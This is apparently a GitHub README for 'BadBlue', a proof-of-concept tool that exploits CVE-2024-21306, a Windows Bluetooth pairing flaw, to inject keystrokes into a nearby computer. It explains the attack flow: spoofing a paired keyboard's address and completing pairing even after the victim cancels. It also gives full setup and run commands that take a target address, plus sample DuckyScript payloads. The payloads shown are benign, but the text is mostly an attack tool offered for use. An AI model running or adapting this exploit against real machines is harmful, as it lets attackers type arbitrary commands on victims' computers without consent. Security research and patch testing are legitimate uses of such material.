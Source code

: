 # BadBlue (Windows)


CVE-2024-21306 BadBlue implementation (Using DuckyScript)

Unauthenticated Peering Leading to Code Execution (Using HID Keyboard)

[This is an implementation of the CVE discovered by marcnewlin](https://github.com/marcnewlin/hi_my_name_is_keyboard)

[And BlueDucky](https://github.com/pentestfunctions/BlueDucky)

## Introduction
BabBlue is a powerful tool for exploiting a vulnerability in Bluetooth devices. By running this script, you can:

1. Load saved Bluetooth devices that are no longer visible but have Bluetooth still enabled.
2. Automatically save any devices you scan.
3. Send payload via ducky script format to interact with devices.

I've successfully run this on any Raspberry Pi 4 and VirtualBox using the CRS 4.0, ORICO 4.0,.. Bluetooth module. It works against various Windows with version lower .3007 .
The Windows computer must be paired with a Bluetooth keyboard, and the keyboard must be switched off (or out of range).

An attacker, using an Ubuntu computer and Broadcom-based Bluetooth adapter, spoofs the address of the target keyboard and connects to L2CAP 17 on the Windows computer, while specifying the `NoInputNoOutput` SSP pairing-capability.

The victim sees a notification reading `Add a device` `Tap to set up your <Keyboard Name>`.

If they ignore the notification, nothing happens.

If they click on the notification, they are presented with a Bluetooth pairing-request dialog.

If the victim has the "Add a Bluetooth device" UI open, they will not see a notification, and will instead be immediately presented with the pairing-request as a modal dialog.

The attacker can complete pairing once the pairing-request dialog closes, even if the user clicks `Cancel` or `X`. Once pairing completes, the attacker connects to L2CAP 17 (HID Control).

The attacker then connects to L2CAP 19 (HID Interrupt), and is able to inject arbitrary keystrokes.

## Installation and Usage

### Setup Instructions

```bash
# update apt
sudo apt-get update && sudo apt-get -y upgrade

# install dependencies from apt
sudo apt install -y bluez-tools bluez-hcidump git \
                    python3-pip python3-setuptools \
                    libbluetooth-dev dbus-x11

# configure bluetoothd to run in compatibility mode to support sdptool
sudo sed -i "s|ExecStart=/usr/lib/bluetooth/bluetoothd|ExecStart=/usr/lib/bluetooth/bluetoothd --compat|g" /lib/systemd/system/bluetooth.service
sudo systemctl daemon-reload
sudo systemctl restart bluetooth

# install pybluez
git clone https://github.com/pybluez/pybluez.git
cd pybluez
sudo python3 setup.py install
python3 -m pip install pydbus

# build bdaddr from bluez
cd ~
git clone https://github.com/bluez/bluez.git
cd bluez
gcc -o bdaddr tools/bdaddr.c src/oui.c -lbluetooth -I.
sudo cp bdaddr /usr/local/bin/
```

## Running BabBlue
```bash
git clone https://github.com/PhucHauDeveloper/BabBlue.git
cd BabBlue
sudo hciconfig hci0 up
```

1. Pair a Bluetooth keyboard to the target Windows-computer, and turn off the keyboard
2. On the Ubuntu computer, run the PoC: `./BadBlue.py -i <Interface> -k <Keyboard-Address> -c <Windows-Address>`
3. Click on the notification when it appears on the Windows computer
4. Close the pairing-request dialog (or click `Cancel` or `Approve`)
5. If successful, the Ubuntu machine will connect to the Windows machine and inject a nondestructive your payload
   
-k is Keyboard(default my keyboard F4:73:35:7A:4B:BB, you need change it)

-i is interface(default hci0)

-c is target windows devices(type blank tool auto scan for you)


## Duckyscript
Work in Progress:
- Suggest me ideas

## Know Bug
char '\' sometime can't send


#### Example payload.txt:
```bash
REM Title of the payload
STRING ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz1234567890!@#$%^&*()_-=+\|[{]};:'",<.>/?
GUI D
```

```bash
REM Opens RickRoll
DELAY 200
GUI r
DELAY 200
STRING https://www.youtube.com/watch?v=dQw4w9WgXcQ
DELAY 300
ENTER
DELAY 300
```

## Enjoy experimenting with BabBlue!


